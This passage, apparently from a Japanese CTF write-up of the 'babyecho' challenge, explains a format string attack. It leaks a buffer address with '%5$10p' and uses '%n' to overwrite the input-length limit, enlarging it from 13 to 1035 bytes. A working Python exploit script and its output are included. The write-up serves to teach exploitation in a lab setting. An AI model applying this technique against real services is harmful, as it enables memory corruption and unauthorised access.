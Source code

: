 

13バイト制限のため、2回に分けてこの方法を試行します。
まず1回目に、**%5$10p**と入力することによって、esp+10に格納されているバッファーのアドレスを取得します。

そのアドレスから0x0bを引くことによって、バッファーの読み込みバイト数が格納されているアドレスの1バイト上位のアドレスを計算します。
これは、一度に送ることができる文字数が制限されていることによって、**自由に大きな数値を指定できないため、**バッファーのバイト数格納位置の1バイト上位に文字列長を書き込む方法をとったためです。今回の最大13バイトの入力という制限下では、最大でも9までしか数値を指定できません。それをそのままバッファー読み込みバイト数に格納しても、現状の13バイトより減ってしまいます。そのため、書き込む位置を上位にずらすことで、結果的にその数値をビットシフトによる掛け算で大きくし、バイト数制限の値を拡張しています。

そして2回目の入力時に、先ほど計算したアドレスへ文字数である4を、%nフォーマット文字列を使って書き込みます。これによって、現在0x0000000bとなっている読み込みバイト数を、0x0000040bに書き換えることができます。

コードは以下のようになります。

```python
#!/usr/bin/env python

import sys
import socket
import struct

HOST = 'localhost' # 'babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me'
PORT = 3232

s = socket.create_connection((HOST, PORT))

def exploit():
    index = 7 # index of read/write buffer

    print(s.recv(8192))
    s.send("%5$10p\n") # request buffer address

    addr_buf = int(s.recv(10), 16)
    print("[DEBUG] Buffer address = 0x%x" % addr_buf)

    code = struct.pack('<I', (addr_buf - 0xb)) # address[buffer size limit] << 8
    code += "%%%d$ln\n" % index # write message text length = 4

    s.recv(8192)
    s.send(code) # overwrite buffer

    s.recv(8192)
    print(s.recv(8192))

if __name__=='__main__':
    exploit()

```

実行してみると、以下のようになりました。

```
Reading 13 bytes

[DEBUG] Buffer address = 0xffbf62bc

Reading 1023 bytes
```

